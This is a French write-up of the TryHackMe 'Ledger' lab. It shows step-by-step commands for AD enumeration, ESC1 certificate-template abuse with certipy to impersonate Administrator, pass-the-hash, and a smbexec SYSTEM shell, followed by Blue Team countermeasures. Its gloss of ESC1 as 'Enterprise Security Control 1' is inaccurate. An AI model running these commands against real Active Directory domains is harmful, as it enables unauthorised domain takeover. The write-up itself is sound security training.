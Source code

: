 
```markdown
# TryHackMe - Ledger – Write-up Complet (FR)

[https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`)  
pour obtenir une exécution de commande en tant qu’administrateur de domaine via SMB et NTLM hash.

---

## 🔍 1. Scan et découverte

### Scan nmap

---

### Ajout dans `/etc/hosts` :

```

IPCIBLE labyrinth.thm.local thm.local LABYRINTH

````

- Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.

---

### Test guest :

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
````

On récupère 2 utilisateurs avec le même mot de passe.

---

### Connexion avec un utilisateur valide :

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

Connexion avec Remmina (RDP).
Récupération du flag `user.txt`.

---

## 🧩 2. Credential reuse via NTLM hash

### Active Directory Certificate Services (AD CS)

À l'aide de certipy, nous trouvons un modèle de certificat appelé `ServerAuth` vulnérable à ESC1.

---

### ESC1 (Enterprise Security Control 1)

* Technique d’attaque contre AD CS.
* Permet à un utilisateur de s’auto-délivrer un certificat d’authentification valide pour n’importe quel utilisateur, même un Domain Admin !

---

### Découverte de la vulnérabilité avec certipy :

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Droits d'inscription : `THM.LOCAL\Authenticated Users` peut s'inscrire, ce qui permet de demander le certificat.
* Authentification client EKU : certificat utilisable pour l’authentification auprès d’Active Directory.
* **EnrolleeSuppliesSubject** : vulnérabilité principale, permet de spécifier le sujet du certificat, donc d'usurper n'importe quel compte.

---

### Demande du certificat en se faisant passer pour l'administrateur :

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
-ca thm-LABYRINTH-CA -target labyrinth.thm.local \
-template ServerAuth -upn Administrator@thm.local
```

---

### Authentification avec le certificat généré :

```bash
certipy-ad auth -pfx administrator.pfx
```

Un hash NTLM est fourni ou découvert :
`:07d677XXXXXXXXXXXXX322`

---

### Test du hash avec CrackMapExec :

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès confirmé : utilisateur Administrator avec un hash fonctionnel → Pass-the-Hash.

---

## 🚀 3. Exploitation finale

```bash
smbexec -k -hashes :07d677XXXXXXXX52322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✔️ Shell SYSTEM via SMB !
Obtention de `root.txt`.

---

## 🛡️ 4. Bonnes pratiques défensives (Blue Team)

| Problème exploité                                    | Contremesure recommandée                                              |
| ---------------------------------------------------- | --------------------------------------------------------------------- |
| Hash NTLM réutilisable (Pass-the-Hash)               | - Activer LAPS (Local Admin Password Solution)                        |
|                                                      | - Désactiver SMBv1                                                    |
|                                                      | - Kerberos only                                                       |
| Pas de segmentation réseau                           | Isoler les DC, segmenter le réseau AD.                                |
| Aucun journal d’échec (4625)                         | Auditer les logs de sécurité Windows.                                 |
| Pas de détection post-exploitation                   | SIEM avec alertes sur smbexec, psexec, wmiexec                        |
| Accès Admin avec mot de passe connu ou hash statique | Rotation régulière des mots de passe et monitoring des connexions SMB |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* 🎯 Surveillez les modèles de certificats.
* 🎯 Ne laissez pas les utilisateurs choisir leurs propres sujets.
* 🎯 Sécurisez SMB et éliminez NTLM si possible.
* 🎯 Déployez la journalisation et les alertes ADCS.

```

---

```
